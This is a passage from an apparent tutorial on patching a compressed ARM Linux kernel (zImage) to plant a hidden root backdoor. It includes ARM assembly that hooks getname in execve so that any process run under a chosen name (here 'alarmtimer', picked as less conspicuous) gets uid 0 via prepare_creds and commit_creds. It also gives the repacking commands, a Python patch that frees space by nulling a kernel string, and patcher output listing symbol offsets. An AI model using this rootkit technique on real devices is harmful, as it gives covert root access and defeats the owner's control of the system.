 ```asm
    MOV r0, r10
    // Return
    POP    {{r4, r5, r6, r7, r8, r9, r10, pc}}
```

I have tried to comment the code sufficiently to make it readable and understandable. 

The summary:
We replace the `bl getname` in `execve` to `branch and link` to our code instead. Once there, we call `getname()` ourselves, and store the result from `r0` into `r10` for later.

We then compare the filename passed to `getname()` in `execve` to a string elsewhere in the kernel. We could overwrite something with our own string... like `r00tk1t` but for this exercise I just used an existing string `alarmtimer`, it's less conspicuous. If we match our string compare, we proceed to call `prepare_creds(NULL)`. Once that returns, we overwrite the `uid/gid` etc.. in the struct. We now have an updated credentials struct, which we then pass to `commit_creds`.

What this effectively does is change the user id of the current executing process to `0` (`root`). This will only happen if the name matches exactly.

### Putting it all together

```bash
./scripts/zImage_repacker.py -x -i zImage && ./scripts/kernel_patcher.py -k extracted_kernel && ./scripts/zImage_repacker.py -c -i zImage
```

This gives us a nice error message... 
```bash
    raise Exception(f"Compressed size is larger than allowed. {len(compressed_data)} > {original_gz_size}")
Exception: Compressed size is larger than allowed. 2415615 > 2415607
```
Oh no... what now? The compressed image is just a bit too large. We can do something about that though. We can find and replace some existing string in the kernel with a bunch of nulls (which are more compressible). We'll add that to the [kernel_patcher.py](./scripts/kernel_patcher.py) script. 

```python
    long_useless_message = "Please see the file Documentation/feature-removal-schedule.txt in the kernel source tree for more details"
    useless_msg_offset = find_string_in_bytearray(kernel_code, long_useless_message)
    if useless_msg_offset:
        self.apply_byte_patch(kernel_code, useless_msg_offset, b'\x00'*(len(long_useless_message)))
    else:
        raise RuntimeError("Couldn't find the string used to free up space...")
```

Now we have a successful patching:
```bash
[+] Extracting kernel from zImage
[+] Decompressing to extracted_kernel
[+] Writing to offset: 3918739 (0x3bcb93)
string_offset: 0x3bc960
BASE_CODE:                   0x2545cc 0x8025c5cc
getname:                     0xb33ac 0x800bb3ac
printk:                      0x3290ac 0x803310ac
prepare_creds:               0x37950 0x8003f950
commit_creds:                0x37aac 0x8003faac
string_offset(alarmtimer):   0x3bc960 0x803c4960

        // We protect ourselves and just return from this function if it is called
        PUSH    {lr}
        POP     {pc}

        // Entry for our code, this is where we'll have to jump to.
        // Save off some registers to restore later...
        PUSH    {r4, r5, r6, r7, r8, r9, r10, lr}
        
```